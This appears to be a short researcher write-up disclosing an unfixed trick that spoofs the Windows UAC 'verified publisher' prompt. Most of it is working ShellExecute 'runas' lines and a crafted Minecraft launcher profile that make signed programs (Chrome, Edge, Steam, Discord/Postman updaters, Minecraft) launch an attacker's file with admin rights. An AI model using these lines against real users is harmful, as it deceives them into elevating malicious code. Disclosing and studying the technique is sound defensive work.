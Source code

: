 ```yaml
---
title: UAC Spoof (Not Fixed)
---
```


Spoofing the Windows UAC (user account control) prompt "verified" publisher :)  
PoCs can be found at <https://github.com/NDevTK/UACSpoof>  
![Chat](https://ndevtk.github.io/writeups/UAC.png)  

This is a very easy spoof since all it needs is a signed program to launch the attackers code while maintaining admin privileges.

# Chromium
Will run what ever program is set in `gpu-launcher` 
```js
App.ShellExecute "C:\Program Files\Google\Chrome\Application\chrome.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```
```js
App.ShellExecute "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```
```js
App.ShellExecute "C:\Program Files (x86)\Steam\bin\cef\cef.win7x64\steamwebhelper.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```

# Electron
Will run what ever program is set in `processStart` 
```js
App.ShellExecute <Discord/Postman> + "Update.exe", "--processStart <FILE>", , "runas"
```

# Minecraft
Will run what ever program is set as the `javaDir` in `launcher_profiles.json` 
```js
Profiles = "{""profiles"":{""release"":{""created"":""1970-01-02T00:00:00.000Z"",""icon"":""Grass"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-02T00:00:00.000Z"",""lastVersionId"":""latest-release"",""name"":"""",""type"":""latest-release""},""snapshot"":{""created"":""1970-01-01T00:00:00.000Z"",""icon"":""Dirt"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-01T00:00:00.000Z"",""lastVersionId"":""latest-snapshot"",""name"":"""",""type"":""latest-snapshot""}},""settings"":{""crashAssistance"":true,""enableAdvanced"":false,""enableAnalytics"":true,""enableHistorical"":false,""enableReleases"":true,""enableSnapshots"":false,""keepLauncherOpen"":false,""profileSorting"":""ByLastPlayed"",""showGameLog"":false,""showMenu"":false,""soundOn"":false},""version"":3}"
Profiles = Replace(Profiles, "<RUNTIME>", Replace(Temp, "\", "\\"))
```
